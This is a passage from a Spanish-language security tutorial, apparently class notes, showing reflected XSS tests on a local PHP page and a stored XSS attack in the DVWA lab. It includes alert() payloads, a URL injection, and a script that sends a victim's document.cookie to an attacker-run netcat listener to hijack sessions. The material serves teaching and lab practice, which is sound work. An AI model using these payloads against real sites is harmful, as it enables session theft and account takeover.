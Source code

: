 En este caso, para conseguir comprobar que efectivamente funciona el XSS si se mira el código fuente de la página, se podrá ver que existe una caja de tipo _text_ que será necesario cerrar antes de poder insertar la prueba:
~~~
"><SCRIPT>alert(5);</SCRIPT>
~~~
Ahora sí funciona, ya que se está cerrando la caja antes de la alerta:
~~~
<INPUT TYPE="text" VALUE=""><SCR...
~~~

- Ejemplo 3
En el último de estos ejemplos prácticos se va a quitar la caja en la que se puede insertar texto en el _index.html_, solo se van a poder pulsar dos botones _HOLA o ADIOS_. El fichero _xss.php_ será el mismo del primer ejemplo pero el _body del html_ cambiará ligeramente:

index.html
~~~
<HTML>
  <HEAD>
    <TITLE>Vulnerabilidad XSS</TITLE>
  </HEAD>
  <BODY>
    <A HREF=“xss.php?vuln=hola”>HOLA</A>
    <A HREF=“xss.php?vuln=adiós”>ADIÓS</A>
  </BODY>  
</HTML>
~~~
La forma saber si es vulnerable a XSS, será realizando la comprobación a través de la URL directamente:
~~~
http://localhost/xss3/xss.php?vuln=<SCRIPT>alert(5);</SCRIPT>
~~~
### [Segundo Video de XSS](https://youtu.be/KrW_g0RX2uA)

En esta segunda parte del video se realizará las prácticas en el entorno web DVWA, donde se realizará una prueba persistente.
XSS Persistente (Stored)
El XSS persistente, como su propio nombre indica, permanecerá en la página donde se haya insertado el código y cada vez que se acceda a la misma se ejecutará dicho código.
Este ejemplo es como un libro de firmas en el que se puede poner el nombre y el mensaje que se quiere dejar en el libro de firmas.
Supongamos que el atacante accede con su usuario y contraseña _1337:charley_ pero quiere conseguir robar la cookie de otro usuario para poder robarle la sesión. Deberá acceder al apartado _XSS persistent_ vulnerable a este tipo de ataque e introducir lo siguiente
~~~
Name: iespoligonosur
Message: <script>new Image().src="http://ip de nuestro equipo:puerto que queramos?"+document.cookie;</script>
~~~
Será necesario levantar un servicio a la escucha por si llega información de alguien que entre (nc -lvp puerto definido en el script) por ejemplo, en la propia máquina Kali DVWA y que desde otro equipo se acceda con la cuenta del administrador.
